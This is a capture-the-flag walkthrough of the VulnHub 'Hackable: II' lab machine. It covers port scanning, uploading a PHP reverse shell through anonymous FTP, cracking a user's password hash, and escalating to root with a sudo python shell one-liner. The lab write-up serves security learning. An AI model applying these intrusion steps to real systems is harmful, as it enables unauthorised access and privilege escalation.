 <h1>Hackable: II</h1>

Today, we'll be taking a look at the hackable2 machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/hackable-ii,711/).

Let's scan the machine with nmap.
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A -p- 192.168.56.105
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 19:57 EET
Nmap scan report for 192.168.56.105
Host is up (0.00035s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 0        0             109 Nov 26  2020 CALL.html
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2fc62fc46da6f55bc21bf9171f9a0989 (RSA)
|   256 5e911b6bf1d881de8b2cf37061ea6f29 (ECDSA)
|_  256 f1982191c8ee4da283146496375b443d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:E0:32:46 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.35 ms 192.168.56.105
```
The machine is running ftp,ssh and http.

ftp allows anonymous login.

We got in and found a file called: **CALL.html**.

Let's download it to our local machine.

```get CALL.html```

![](pics/pic1.png)

The file doesn't contain anything special, just some basic html.

Let's check the machine's http server.

I'll use dirsearch for directory enumeration.

```dirsearch -u 192.168.56.105```

![](pics/pic2.png)

We found a directory called **files**.

![](pics/pic3.png)

![](pics/pic4.png)

It cotains the same file we found in the ftp server.

That means we can anonymous login to upload a reverse shell.

If you're using kali or parrot, you can find a php reverse shell here: **/usr/share/webshells/php/php-reverse-shell.php**

Now, we need to change the ip address to the ip of our local machine.

![](pics/pic5.png)

Now, let's login as anonymous and upload the shell.

```put php-reverse-shell.php```

![](pics/pic6.png)

We can see that the shell is also in the **files** directory.

![](pics/pic7.png)

We got a shell!

You can also use these two commands to make your shell more stable.

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

![](pics/pic8.png)

In the home directory, there's a file **important.txt**.

![](pics/pic9.png)

Let's check that script.

![](pics/pic10.png)

We found the hashed password for the user **shrek**.

Let's crack the hash and switch user to shrek.

You can use this [website](https://hashes.com/en/tools/hash_identifier) to 
identify the hash type.

![](pics/pic11.png)

We got the password.

Now, let's switch to shrek.

```su shrek```

We found the user flag at the home directory of shrek.

![](pics/pic12.png)

Let's use ```sudo -l```.

Great! we can run python with sudo.

![](pics/pic13.png)

Now, let's open a root shell and find the root flag.

```python3.5 -c 'import os; os.system("/bin/sh")'```

We are root!

![](pics/pic14.png)